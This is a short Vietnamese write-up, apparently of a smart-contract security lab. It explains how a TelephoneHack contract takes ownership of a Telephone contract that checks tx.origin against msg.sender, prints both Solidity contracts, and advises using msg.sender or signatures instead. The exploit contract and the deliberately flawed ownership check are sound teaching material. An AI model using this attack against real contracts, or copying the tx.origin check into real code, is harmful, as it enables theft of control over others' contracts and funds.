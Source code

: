 ### Kết luận
- Lỗ hổng:
1. Contract tấn công TelephoneHack được thiết kế để vượt qua điều kiện `if` của hàm `changeOwner`.
2. `msg.sender` khi gọi `TelephoneHack.attack()` là địa chỉ của người dùng (attacker).
3. `tx.origin` vẫn là địa chỉ của người dùng (không đổi qua nhiều contract).
=> Do đó, msg.sender của contract Telephone sẽ là `address(TelephoneHack)` (contract trung gian) trong khi tx.origin vẫn là attacker, thỏa mãn điều kiện `tx.origin != msg.sender`.
=> Kẻ tấn công có thể thay đổi owner của contract Telephone.


- Cách phòng tránh:
1. Không nên sử dụng tx.origin () để kiểm tra quyền mà cần sử dụng msg.sender để an toàn hơn, hoặc có thể thêm xác thực bằng chữ kí số,..etc.
### Attack Contract
```solidity
// SPDX-License-Identifier: MIT
import './telephone.sol';
pragma solidity ^0.8.0;
interface ITelephone{
    function changeOwner(address _owner) external;
}
contract TelephoneHack{
    ITelephone public telephone;
    constructor (address _telephoneAddress){
        telephone = ITelephone(_telephoneAddress);
    }
    function attack() external payable{
        telephone.changeOwner(tx.origin); // Địa chỉ của attacker, người gửi giao dịch đầu tiên từ bên ngoài.
    }
}
```
### Contract
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner; // Lỗ hổng ở đây
        }
    }
}
```
